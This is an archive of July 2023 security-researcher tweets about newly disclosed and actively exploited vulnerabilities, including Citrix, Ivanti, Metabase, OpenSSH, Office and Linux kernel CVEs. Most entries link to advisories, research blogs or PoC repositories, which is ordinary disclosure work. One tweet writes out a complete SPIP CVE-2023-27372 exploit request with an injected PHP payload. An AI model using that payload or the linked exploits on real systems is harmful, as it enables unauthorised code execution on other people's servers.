# wdormann
**https://twitter.com/wdormann/status/1685293302180982784 _at 2023-07-29, 14:16:49_**
<blockquote>
- Citrix NetScaler runs on FreeBSD.
- FreeBSD still doesn't have ASLR because "there's a million ways to defeat it." (The not-yet released version 14 apparently has it on by default)
- CVE-2023-3519 is a memory corruption vulnerability.

Please think about this combo of facts.
🤔 https://t.co/zzOb65th4o
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>14</code></td>
<td>Retweets: <code>63</code></td>
<td>Favorites: <code>251</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1685288901848797185 _at 2023-07-29, 13:59:20_**
<blockquote>
CVE-2023-35078 - Remote Unauthenticated API Access Vulnerability Exploit POC
https://t.co/FIXr27Ss1e
</blockquote>

* https://raw.githubusercontent.com/vchan-in/CVE-2023-35078-Exploit-POC/main/cve_2023_35078_poc.py

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>114</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1684839629630136320 _at 2023-07-28, 08:14:05_**
<blockquote>
CVE-2023-35885
Cloudpanel 0-day Exploit
https://t.co/sI4ZuaVWgF
</blockquote>

* https://github.com/datackmy/FallingSkies-CVE-2023-35885

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>123</code></td>
</tr></table>

---

# assetnote
**https://twitter.com/assetnote/status/1684723806370504704 _at 2023-07-28, 00:33:50_**
<blockquote>
Our security research team were the original reporters of the Metabase Pre-Auth RCE vulnerability (CVE-2023-38646). 

You can read our blog post here: 
https://t.co/G9icsBuCYB

And our advisory here: https://t.co/MXqJ254S6w https://t.co/p4zgvPukdO
</blockquote>

* https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/
* https://blog.assetnote.io/2023/07/22/advisory-metabase-rce/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>107</code></td>
</tr></table>

---

# infosec_au
**https://twitter.com/infosec_au/status/1684723462919933952 _at 2023-07-28, 00:32:28_**
<blockquote>
The security research team at @assetnote found and reported a critical pre-auth RCE vulnerability to Metabase earlier this month CVE-2023-38646:

https://t.co/ivf1PwweNj

This one was an incredibly fun discovery as there are many roads to RCE through JDBC. We've published details… https://t.co/05OIVQKE84
</blockquote>

* https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>114</code></td>
<td>Favorites: <code>398</code></td>
</tr></table>

---

# c0m0r1
**https://twitter.com/c0m0r1/status/1684359067295420416 _at 2023-07-27, 00:24:30_**
<blockquote>
CVE-2023-3390: UAF on Linux Netfilter nftables MFT_MSG_NEWRULE leads to LPE.
We exploit this tiny 1-day vuln to pwn all targets of Google's kernelCTF for the first time in history.
Nice and clear triple-kill 🥳 https://t.co/kkWjiCZy8R
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>82</code></td>
<td>Favorites: <code>350</code></td>
</tr></table>

---

# hosselot
**https://twitter.com/hosselot/status/1684019971863482368 _at 2023-07-26, 01:57:03_**
<blockquote>
The sandbox escape bug entry is now open also (CVE-2023-2136):
https://t.co/tJuOfWGDz3
</blockquote>

* https://bugs.chromium.org/p/chromium/issues/detail?id=1432603

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>83</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1683730735834750976 _at 2023-07-25, 06:47:44_**
<blockquote>
So the 0day vulnerability in Ivanti Endpoint Manager (MobileIron Core) CVE-2023-35078 was used against Norwegian authorities and discovered there

LinkedIn post
https://t.co/ZdpZcJbjbZ

BleepingComputer article
https://t.co/odmSII0FI1 https://t.co/4c3A2ZyUyL
</blockquote>

* https://www-linkedin-com.translate.goog/posts/nasjonal-sikkerhetsmyndighet_oppdatering-om-nulldagss%C3%A5rbarhet-p%C3%A5-pressem%C3%B8tet-activity-7089367926155165696-0amW/?_x_tr_sl=no&_x_tr_tl=en&_x_tr_hl=en&_x_tr_pto=wapp
* https://www.bleepingcomputer.com/news/security/norway-says-ivanti-zero-day-was-used-to-hack-govt-it-systems/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>80</code></td>
<td>Favorites: <code>162</code></td>
</tr></table>

---

# 1ZRR4H
**https://twitter.com/1ZRR4H/status/1682979913299632128 _at 2023-07-23, 05:04:14_**
<blockquote>
Citrix Gateway VPN compromised via CVE-2023-3519 (a critical unauthenticated RCE) shows evidence of exploitation on 7th July, 11 days before the official patch.

The attackers exfiltrated the system configuration file to then probably use the Metasploit module called… https://t.co/vZuXdKsQ3r
</blockquote>

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>236</code></td>
<td>Favorites: <code>620</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1682560787087503360 _at 2023-07-22, 01:18:46_**
<blockquote>
CVE-2023-38408 Openssh-RCE
https://t.co/cvC0xlBMV1
</blockquote>

* https://www.qualys.com/2023/07/19/cve-2023-38408/rce-openssh-forwarded-ssh-agent.txt

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>128</code></td>
</tr></table>

---

# hosselot
**https://twitter.com/hosselot/status/1681740693084188674 _at 2023-07-19, 19:00:01_**
<blockquote>
The bug entry is now open with a PoC (CVE-2023-2033):
https://t.co/jw2h9peUTW
</blockquote>

* https://bugs.chromium.org/p/chromium/issues/detail?id=1432210

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>61</code></td>
</tr></table>

---

# RicercaSec
**https://twitter.com/RicercaSec/status/1681581892901142531 _at 2023-07-19, 08:29:00_**
<blockquote>
In the final part of our Fuzzing Farm series, we provide technical analysis and a PoC for CVE-2022-24834, an RCE vulnerability in Redis we found.
While we reported it in 2022, the bug detail was disclosed last week. If you use Redis, patch it immediately.
https://t.co/9OAbK644xd
</blockquote>

* https://ricercasecurity.blogspot.com/2023/07/fuzzing-farm-4-hunting-and-exploiting-0.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>180</code></td>
</tr></table>

---

# BushidoToken
**https://twitter.com/BushidoToken/status/1681314564162588672 _at 2023-07-18, 14:46:44_**
<blockquote>
⚠ Patch CVE-2023-3519 - Unauthenticated RCE in Citrix ADC and Citrix Gateway

Citrix: "Exploits of CVE-2023-3519 on unmitigated appliances have been observed" 🔥

https://t.co/jFtSuXe7PV
</blockquote>

* https://support.citrix.com/article/CTX561482/citrix-adc-and-citrix-gateway-security-bulletin-for-cve20233519-cve20233466-cve20233467

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>107</code></td>
<td>Favorites: <code>221</code></td>
</tr></table>

---

# 1ZRR4H
**https://twitter.com/1ZRR4H/status/1681260777087565825 _at 2023-07-18, 11:13:00_**
<blockquote>
🍯🚨 Honeypot Alert

CVE-2023-20887 VMWare Aria Operations for Networks (vRealize Network Insight) unauthenticated RCE

Last Attackers:
108.174.60.151 🇺🇲 
43.230.89.168 🇭🇰
103.215.206.35 🇮🇳
221.15.155.184 🇨🇳
193.187.172.27 🇷🇺 https://t.co/mzPwrxANq0
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>51</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1680189232730578944 _at 2023-07-15, 12:15:04_**
<blockquote>
CVE-2023-36884

Office/Windows HTML RCE Vulnerability

https://t.co/bVycK1bfX7

#cve #cybersecurity #infosec
https://t.co/ogzhdABuX0 https://t.co/fyzvGXch2M
</blockquote>

* https://github.com/Maxwitat/CVE-2023-36884-Scripts-for-Intune-Remediation-SCCM-Compliance-Baseline
* https://t.me/hackgit/9276

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>99</code></td>
<td>Favorites: <code>302</code></td>
</tr></table>

---

# virusbtn
**https://twitter.com/virusbtn/status/1679806947221032961 _at 2023-07-14, 10:56:00_**
<blockquote>
Fortinet researchers show how the CVE-2021-40444 &amp; CVE-2022-30190 remote code execution vulnerabilities allowed attackers to embed malicious macros within Microsoft documents that, when executed, dropped the LokiBot malware onto the victim's system. https://t.co/dlkaVpYfE4 https://t.co/IfsIdPWSLg
</blockquote>

* https://www.fortinet.com/blog/threat-research/lokibot-targets-microsoft-office-document-using-vulnerabilities-and-macros

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>58</code></td>
</tr></table>

---

# HaifeiLi
**https://twitter.com/HaifeiLi/status/1679271469044609024 _at 2023-07-12, 23:28:12_**
<blockquote>
So if I remember it correctly, the CVE-2021-40444, CVE-2022–30190, and now the CVE-2023-36884 are all zero-day attacks because of "Office loading IE engine", it really tells that the hidden-but-not-really-killed IE sitting in Windows is only for zero-day purposes, right, right??
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>48</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1679170087499055119 _at 2023-07-12, 16:45:20_**
<blockquote>
CVE-2023-35803: Unauthenticated RCE in Extreme Networks/Aerohive Wireless APs 

PoC
https://t.co/Dp53sbvDFG https://t.co/Soj7brDtvS
</blockquote>

* https://research.aurainfosec.io/pentest/bee-yond-capacity/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# r00tbsd
**https://twitter.com/r00tbsd/status/1679042069229191173 _at 2023-07-12, 08:16:39_**
<blockquote>
If you missed it yesterday, Microsoft released an advisory concerning the CVE-2023-36884: https://t.co/TmGL6SX5DU. This RCE is currently used by a TA and there is no patch. You should apply the mitigation described in the advisory. 
1/4 https://t.co/z0sTvoiViH
</blockquote>

* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-36884

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>178</code></td>
<td>Favorites: <code>392</code></td>
</tr></table>

---

# HaifeiLi
**https://twitter.com/HaifeiLi/status/1678950495778668545 _at 2023-07-12, 02:12:46_**
<blockquote>
According to MS blogpost, I found this sample on VT. Saw some weird things such as a ".url" and a ".xml" file "linked". However I wasn't able to reproduce in an Office 2021 env (I'm running out of VMs!).  Let me know if anyone succeeds.

https://t.co/ZGoGj6MhG2

#CVE-2023-36884
</blockquote>

* https://www.virustotal.com/gui/file/a61b2eafcf39715031357df6b01e85e0d1ea2e8ee1dfec241b114e18f7a1163f/detection

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---

# Gi7w0rm
**https://twitter.com/Gi7w0rm/status/1678827226781872162 _at 2023-07-11, 18:02:56_**
<blockquote>
⚠️ Microsoft is investigating reports of a series of remote code execution vulnerabilities impacting Windows and Office products. Microsoft is aware of targeted attacks that attempt to exploit these vulnerabilities by using crafted Microsoft Office documents.
CVE-2023-36884
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>132</code></td>
</tr></table>

---

# infosec_au
**https://twitter.com/infosec_au/status/1678578779571236865 _at 2023-07-11, 01:35:42_**
<blockquote>
The security research team at @assetnote discovered a pre-authentication RCE vulnerability through a cryptographic flaw in Citrix ShareFile. It's been assigned CVE-2023-24489. You can read the technical blog post here: https://t.co/02EcdlJKNi https://t.co/XCg7S8OrJl
</blockquote>

* https://blog.assetnote.io/2023/07/04/citrix-sharefile-rce/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>294</code></td>
<td>Favorites: <code>811</code></td>
</tr></table>

---

# assetnote
**https://twitter.com/assetnote/status/1678578541439627266 _at 2023-07-11, 01:34:45_**
<blockquote>
Given the recent high profile breaches of file transfer software, our security research team focused on Citrix ShareFile and discovered a critical pre-authentication RCE vulnerability. This has been assigned CVE-2023-24489. 

Our blog post can be found here:… https://t.co/v5UGyxWZww
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>149</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1678405071200047116 _at 2023-07-10, 14:05:26_**
<blockquote>
SPIP RCE CVE-2023-27372 #BugBounty 
Post:
hxxp://host/spip.php?page=spip_pass
data:
page=spip_pass&amp;formulaire_action=oubli&amp;formulaire_action_args=E1nK0hfOPllDtCUbG6L94SlEpZi7Vz17IKUbf0ZB6ET0WbEHeXrw9tNNCEWjm0ac0%2F4DuboKIZvygjRh&amp;oubli=s:19:"&lt;?php phpinfo(); ?&gt;";&amp;nobot=
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>114</code></td>
</tr></table>

---

# NVamous
**https://twitter.com/NVamous/status/1678244404044374019 _at 2023-07-10, 03:27:00_**
<blockquote>
“Dirty Pagetable: A Novel Exploitation Technique To Rule Linux Kernel”
https://t.co/o4h3avhgBf
We succeeded in exploiting CVE-2023-21400 on Google pixel 7 with Dirty Pagetable. And we also pushed the exploitation of file UAF and pid UAF to the next level with Dirty Pagetable! https://t.co/JCy7Mblfc4
</blockquote>

* https://yanglingxi1993.github.io/dirty_pagetable/dirty_pagetable.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>14</code></td>
<td>Retweets: <code>179</code></td>
<td>Favorites: <code>497</code></td>
</tr></table>

---

